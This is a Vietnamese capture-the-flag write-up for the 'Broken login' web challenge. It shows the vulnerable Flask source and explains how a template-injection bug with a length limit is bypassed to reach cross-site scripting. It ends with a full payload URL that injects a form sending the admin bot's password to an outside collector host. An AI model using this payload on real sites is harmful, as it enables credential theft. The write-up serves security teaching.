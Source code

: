 # 1. Broken login
Challenge cung cấp source code của file `app.py` và source code của admin bot.

File `app.py`:
```
from flask import Flask, make_response, request, escape, render_template_string

app = Flask(__name__)

fails = 0

indexPage = """...Login form..."""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)
        
        custom_message = escape(request.args["message"])
    
    return render_template_string(indexPage % custom_message, fails=fails)


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)


if __name__ == "__main__":
    app.run("0.0.0.0")
```

Khảo sát website, ta thấy các chức năng:
+) Login form cho phép nhập username và password, sẽ hiển thị "Wrong username or password" cho dù thông tin đăng nhập có là gì chăng nữa.
+) Admin bot sẽ visit URL với domain hợp lệ, điền thông tin username và password vào các ô input rồi submit form. Trong đó, password chính là flag.

Như vậy, ta cần đọc request login do admin bot submit. Đọc file `app.py`, ta thấy tham số `message` được truyền vào template. Thử `/?message={{7*7}}` => có lỗ hổng SSTI, tuy nhiên giới hạn độ dài là 25 nên cần tìm cách bypass.

Để bypass length, ta dùng `/?message={{request.args.a|safe}}&a=abc`. Khi `message` được load vào template, nó sẽ đọc tham số `a` trong query string và thay thế bằng giá trị của `a` khiến chuỗi`abc` được hiển thị. Ta thấy website chỉ escape biến `message` => XSS với parameter `a` => có thể tạo payload khiến Admin Bot execute script, gửi request đến BurpCollaborator.

Payload cuối cùng như sau: `https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cform+action%3D%22https%3A%2F%2Fuywcqez17hkq9srcsampsedao1urig.oastify.com%2Ftest%22+method%3D%22POST%22%3E%3Cinput+type%3D%22text%22+name%3D%22username%22%3E%3Cinput+type%3D%22text%22+name%3D%22password%22%3E%3Cinput+type%3D%22submit%22+value%3D%22SUBMIT%22%3E%3C%2Fform%3E`
